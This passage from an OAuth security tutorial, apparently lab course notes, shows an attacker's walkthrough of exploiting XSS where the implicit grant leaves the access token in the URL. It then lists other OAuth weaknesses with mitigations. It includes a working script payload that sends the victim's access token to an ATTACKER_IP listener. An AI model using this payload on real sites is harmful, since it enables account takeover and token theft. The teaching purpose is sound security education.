 ### Walkthrough from an Attacker’s Perspective

Assume an application which uses Implicit Grant Type, so the access token is stored in the URL. Here is the page where the user can enter a status. The input field is vulnerable to XSS.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1722107085052.png)

If the attacker were to share the following payload with the victim:

```html
<script>var hash = window.location.hash.substr(1);var result = hash.split('&').reduce(function (res, item) {var parts = item.split('=');res[parts[0]] = parts[1];
    return res;
  }, {});
  var accessToken = result.access_token;
    var img = new Image();
    img.src = 'http://ATTACKER_IP:8081/steal_token?token=' + accessToken;
</script>
```

and it were entered into the status input field, then the attacker would be able to intercept the cookie by listening on port 8081

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/20d8869d-2f05-4acb-81e4-5c003b71d394/c64d7da1-b2e0-4ace-a529-29729d1c2115/image.png)

# Other Vulnerabilities and Evolution of OAuth 2.1

Apart from the vulnerabilities discussed in this document, attacker can exploit several other critical weaknesses in OAuth 2.0 implementations. The following are some additional vulnerabilities that you should be aware of when testing an OAuth application.

## Insufficient Token Expiry

Access tokens with a long or infinite lifetime pose a significant security risk. If an attacker botains such a token, they can access portected resource indefinately. Implementing short-lived access and refresh tokens helps mitigate this risk by limiting the window of opportunity for attackers.

## Replay Attacks

Replay attacks involve capturing valid tokens and reusing them to gain unauthorized access. Attackers can exploit tokens multiple times without mechanisms to detect and prevent token reuse. Implementing **`nonce`** values and **`timestamp`** checks can help mitigate replay attacks by ensuring each token is used only once.

## Insecure Storage of Tokens

Storing access tokens and refresh tokens insecurely (e.g., in local storage or unencrypted files) can lead to token theft and unauthorized access. Using secure storage mechanisms, such as secure cookies or encrypted databases, can protect tokens from being accessed by malicious actors.

## Evolution of OAuth 2.1
